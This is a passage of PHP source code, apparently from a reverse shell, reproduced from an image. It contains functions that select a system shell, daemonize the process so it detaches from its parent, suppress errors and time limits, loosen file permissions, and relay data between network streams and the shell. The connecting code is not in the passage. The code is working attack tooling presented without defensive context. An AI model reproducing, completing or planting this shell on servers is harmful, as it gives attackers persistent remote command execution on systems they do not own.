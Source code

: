 ```bash
            $this->shell = 'cmd.exe';
        } else {
            $detected = false;
            echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";
        }
        return $detected;
    }
    private function daemonize() {
        $exit = false;
        if (!function_exists('pcntl_fork')) {
            echo "DAEMONIZE: pcntl_fork() does not exists, moving on...\n";
        } else if (($pid = @pcntl_fork()) < 0) {
            echo "DAEMONIZE: Cannot fork off the parent process, moving on...\n";
        } else if ($pid > 0) {
            $exit = true;
            echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\n";
            // once daemonized, you will actually no longer see the script's dump
        } else if (posix_setsid() < 0) {
            echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\n";
        } else {
            echo "DAEMONIZE: Completed successfully!\n";
        }
        return $exit;
    }
    private function settings() {
        @error_reporting(0);
        @set_time_limit(0); // do not impose the script execution time limit
        @umask(0); // set the file/directory permissions - 666 for files and 777 for directories
    }
    private function dump($data) {
        if ($this->sdump) {
            $data = str_replace('<', '&lt;', $data);
            $data = str_replace('>', '&gt;', $data);
            echo $data;
        }
    }
    private function read($stream, $name, $buffer) {
        if (($data = @fread($stream, $buffer)) === false) { // suppress an error when reading from a closed blocking stream
            $this->error = true;                            // set the global error flag
            echo "STRM_ERROR: Cannot read from {$name}, script will now exit...\n";
        }
        return $data;
    }
    private function write($stream, $name, $data) {
        if (($bytes = @fwrite($stream, $data)) === false) { // suppress an error when writing to a closed blocking stream
            $this->error = true;                            // set the global error flag
            echo "STRM_ERROR: Cannot write to {$name}, script will now exit...\n";
        }
        return $bytes;
    }
    // read/write method for non-blocking streams
    private function rw($input, $output, $iname, $oname) {
        while (($data = $this->read($input, $iname, $this->buffer)) && $this->write($output, $oname, $data)) {
            if ($this->os === 'WINDOWS' && $oname === 'STDIN') { $this->clen += strlen($data); } // calculate the command length
            $this->dump($data); // script's dump
        }
```